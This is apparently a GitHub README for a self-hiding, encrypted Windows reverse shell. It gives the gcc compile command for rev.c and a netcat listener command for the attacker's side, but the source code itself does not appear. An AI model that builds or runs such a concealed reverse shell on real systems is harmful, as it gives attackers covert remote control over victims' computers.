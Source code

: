# A very simple encrypted windows reverse shell that also hides itself

# Usage (Client Side)
```
gcc rev.c -lwsock32 -lws2_32 -static-libgcc -o rev
``` 
# Usage (Server Side)

```
nc -l 1337
```
**Any listener should do**

# Credits: vinniekorkor#7391

